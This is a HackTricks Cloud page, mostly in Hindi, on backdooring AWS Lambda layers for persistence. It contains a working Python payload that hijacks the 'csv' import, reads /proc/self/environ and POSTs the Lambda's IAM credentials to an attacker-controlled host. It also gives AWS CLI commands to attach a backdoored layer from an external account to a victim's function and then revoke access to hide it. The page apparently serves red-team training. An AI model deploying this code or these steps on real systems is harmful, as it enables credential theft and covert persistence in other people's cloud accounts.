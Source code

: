 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

एक Lambda लेयर एक .zip फ़ाइल संग्रह है जो **अतिरिक्त कोड** या अन्य सामग्री **शामिल कर सकता है**। एक लेयर में पुस्तकालय, एक [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा, या कॉन्फ़िगरेशन फ़ाइलें हो सकती हैं।

आप **प्रत्येक फ़ंक्शन के लिए पांच लेयर** तक शामिल कर सकते हैं। जब आप किसी फ़ंक्शन में एक लेयर शामिल करते हैं, तो **सामग्री को `/opt`** निर्देशिका में निष्पादन वातावरण में निकाला जाता है।

**डिफ़ॉल्ट रूप से**, जो **लेयर** आप बनाते हैं वे आपके AWS खाते के लिए **निजी** होती हैं। आप एक लेयर को अन्य खातों के साथ **साझा** करने या लेयर को **सार्वजनिक** बनाने का विकल्प चुन सकते हैं। यदि आपके फ़ंक्शन किसी अन्य खाते द्वारा प्रकाशित की गई लेयर का उपयोग करते हैं, तो आपके फ़ंक्शन **लेयर संस्करण का उपयोग जारी रख सकते हैं, भले ही इसे हटा दिया गया हो, या आपके लेयर तक पहुँचने की अनुमति को रद्द कर दिया गया हो**। हालाँकि, आप एक नई फ़ंक्शन नहीं बना सकते या हटाई गई लेयर संस्करण का उपयोग करके फ़ंक्शंस को अपडेट नहीं कर सकते।

कंटेनर इमेज के रूप में तैनात फ़ंक्शन लेयर का उपयोग नहीं करते हैं। इसके बजाय, आप इमेज बनाने के समय अपनी पसंद का रनटाइम, पुस्तकालय और अन्य निर्भरताएँ कंटेनर इमेज में पैक करते हैं।

### Python load path

Python द्वारा lambda में उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
चेक करें कि **दूसरे** और तीसरे **स्थान** पर वे निर्देशिकाएँ हैं जहाँ **lambda layers** अपनी फ़ाइलें अनकंप्रेस करती हैं: **`/opt/python/lib/python3.9/site-packages`** और **`/opt/python`**

{% hint style="danger" %}
यदि एक हमलावर एक उपयोग की गई lambda **layer** में **बैकडोर** डालने में सफल हो जाता है या **एक ऐसा जोड़ता है** जो **जब एक सामान्य पुस्तकालय लोड होता है तब मनमाना कोड निष्पादित करेगा**, तो वह प्रत्येक lambda कॉल के साथ दुर्भावनापूर्ण कोड निष्पादित करने में सक्षम होगा।
{% endhint %}

इसलिए, आवश्यकताएँ हैं:

* **जांचें पुस्तकालय** जो **पीड़ितों के कोड** द्वारा **लोड** किए जाते हैं
* एक **प्रॉक्सी पुस्तकालय बनाएं जो lambda layers** के साथ **कस्टम कोड निष्पादित करेगा** और **मूल** पुस्तकालय को **लोड** करेगा।

### प्रीलोडेड पुस्तकालय

{% hint style="warning" %}
इस तकनीक का दुरुपयोग करते समय मुझे एक कठिनाई मिली: कुछ पुस्तकालय **पहले से ही लोड** होते हैं जब आपका कोड निष्पादित होता है। मैं `os` या `sys` जैसी चीजें खोजने की उम्मीद कर रहा था, लेकिन **यहाँ तक कि `json` पुस्तकालय भी लोड हो चुका था**।\
इस स्थायी तकनीक का दुरुपयोग करने के लिए, कोड को **एक नया पुस्तकालय लोड करना होगा जो लोड नहीं होता** जब कोड निष्पादित होता है।
{% endhint %}

इस तरह के एक पायथन कोड के साथ यह संभव है कि **पुस्तकालयों की सूची प्राप्त करें जो प्रीलोडेड** हैं पायथन रनटाइम के अंदर lambda में:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह **सूची** है (जांचें कि `os` या `json` जैसी पुस्तकालय पहले से मौजूद हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
और यह **लाइब्रेरीज़** की सूची है जो **लैम्ब्डा डिफ़ॉल्ट रूप से शामिल करता है**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### लैम्ब्डा लेयर बैकडोरिंग

इस उदाहरण में मान लीजिए कि लक्षित कोड **`csv`** आयात कर रहा है। हम **`csv` लाइब्रेरी के आयात में बैकडोरिंग** करने जा रहे हैं।

इसके लिए, हम **`csv`** नाम का डायरेक्टरी बनाएंगे जिसमें **`__init__.py`** फ़ाइल होगी, एक पथ में जो लैम्ब्डा द्वारा लोड किया जाता है: **`/opt/python/lib/python3.9/site-packages`**\
फिर, जब लैम्ब्डा निष्पादित होता है और **csv** लोड करने की कोशिश करता है, तो हमारी **`__init__.py` फ़ाइल लोड और निष्पादित होगी**।\
इस फ़ाइल को करना चाहिए:

* हमारे पेलोड को निष्पादित करें
* मूल csv लाइब्रेरी को लोड करें

हम दोनों कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
फिर, इस कोड के साथ एक ज़िप बनाएं जो **`python/lib/python3.9/site-packages/__init__.py`** पथ में हो और इसे एक लैम्ब्डा लेयर के रूप में जोड़ें।

आप इस कोड को [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) पर पा सकते हैं।

एकीकृत पेलोड **IAM क्रेडेंशियल्स को एक सर्वर पर भेजेगा जब इसे पहली बार बुलाया जाएगा या लैम्ब्डा कंटेनर के रीसेट के बाद** (कोड में परिवर्तन या ठंडी लैम्ब्डा), लेकिन **अन्य तकनीकें** जैसे निम्नलिखित भी एकीकृत की जा सकती हैं:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### बाहरी लेयर्स

ध्यान दें कि **बाहरी खातों से लैम्ब्डा लेयर्स का उपयोग करना संभव है**। इसके अलावा, एक लैम्ब्डा एक बाहरी खाते से एक लेयर का उपयोग कर सकता है भले ही उसके पास अनुमतियाँ न हों।\
यह भी ध्यान दें कि **एक लैम्ब्डा के पास अधिकतम 5 लेयर्स हो सकती हैं**।

इसलिए, इस तकनीक की बहुपरकारीता को बढ़ाने के लिए एक हमलावर कर सकता है:

* उपयोगकर्ता की मौजूदा लेयर में बैकडोर डालें (कुछ भी बाहरी नहीं है)
* **अपने खाते** में एक **लेयर** **बनाएं**, **पीड़ित खाते को लेयर का उपयोग करने के लिए अनुमति दें**, **पीड़ित की लैम्ब्डा में लेयर को कॉन्फ़िगर करें** और **अनुमति हटा दें**।
* **लैम्ब्डा** अभी भी **लेयर का उपयोग** कर सकेगा और **पीड़ित** के पास **लेयर्स कोड डाउनलोड करने का कोई आसान तरीका नहीं होगा** (लैम्ब्डा के अंदर एक रिव शेल प्राप्त करने के अलावा)
* पीड़ित **`aws lambda list-layers`** के साथ उपयोग की गई बाहरी लेयर्स नहीं देखेगा।

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
